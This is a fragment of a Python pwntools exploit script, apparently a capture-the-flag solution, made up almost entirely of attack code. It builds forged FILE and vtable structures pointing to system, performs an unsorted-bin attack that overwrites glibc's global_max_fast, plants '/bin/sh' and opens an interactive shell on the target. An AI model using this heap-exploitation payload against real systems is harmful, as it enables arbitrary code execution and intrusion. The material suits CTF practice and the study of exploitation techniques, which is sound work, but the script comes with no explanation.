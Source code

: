 ```
payload += p64(sysmem)
payload += p8(0)*(0x2a0-0x8-len(payload))
payload += p64(nl_clctype_class_addr)
payload += p8(0)*(0x438-0x8-len(payload))
payload += p64(stdout)
payload += p8(0)*(0x4a8-0x8-len(payload))
payload += p32(0x1)
payload += p8(0)*(0x4c0-0x8-len(payload))
payload += p64(io_lock_addr)
payload += p8(0)*(0x510-0x8-len(payload))
payload += p64(io_file_jump_addr)
payload += p8(0)*(0x520-0x8-len(payload))
payload += p64(io_stdout_addr)
payload += p8(0)*(0x1000-len(payload))
insert(payload)

payload = p8(0)*(0x910-0x8)
payload += p64(system_addr)
payload += p8(0)*(0x980-0x8-len(payload))
payload += p64(top_chunk_addr)+p64(0)
payload += p64(unsorted_bin_addr)*2
payload += p8(0)*(0xff0-len(payload))
insert(payload)
merge(18, 19)

insert(p8(0)*0x1000)
insert("/bin/sh")

##-- unsorted_bin_attack

delete(4)

payload = p64(unsorted_bin_addr)
payload += p64(libc_base+global_max_fast_off-0x10)
update(2, payload)

insert(p8(0)*0x10)
##--

delete(8)
update(7, p64(libc_base+cache_size_off)+p64(0))

merge(11, 14)
merge(17, 20)

p.sendline("2")
p.sendline("19")
p.sendline("256")

p.interactive()
```
